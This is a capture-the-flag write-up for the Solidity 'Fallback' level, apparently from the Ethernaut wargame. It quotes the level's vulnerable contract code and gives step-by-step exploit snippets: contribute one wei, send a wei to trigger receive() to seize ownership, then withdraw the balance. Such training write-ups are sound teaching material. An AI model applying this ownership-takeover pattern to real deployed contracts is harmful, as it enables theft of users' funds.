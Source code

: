 ## 01 Fallback

To beat this level, we need to comply with

```solidity
instance.owner() == _player && address(instance).balance == 0;
```

### Solution

Notice that the `receive()` function can make `msg.sender` the owner of the contract

```solidity
receive() external payable {
  require(msg.value > 0 && contributions[msg.sender] > 0);
  owner = msg.sender;
}
```

Alas, we need to add some money to `contributions`:

```solidity
function contribute() public payable {
  require(msg.value < 0.001 ether);
  contributions[msg.sender] += msg.value;
  if(contributions[msg.sender] > contributions[owner]) {
    owner = msg.sender;
  }
}
```

So, to solve this level:

* First, we call `contribute()` with one wei.
* Then we `call()` the contract  with another wei (`msg.value > 0` control).
* After that we are the owner of the contract and can `withdraw()` the funds.
* Now, notice that in our test we are invoking the level from a contract (as opposed from an EOA), so we need to include a `receive()` function ourselves.

```solidity
// make this true
// contributions[msg.sender] > 0
challenge.contribute{value: 1 wei}();
```

```solidity
// trigger code in receive()
(bool success,) = address(challengeAddress).call{value: 1 wei}("");
```

```solidity
// See the comment in receive() below
challenge.withdraw();
```

```solidity
// we need a receive function, since we are receiving
// the funds here and this is not an EOA
receive() external payable {}
```
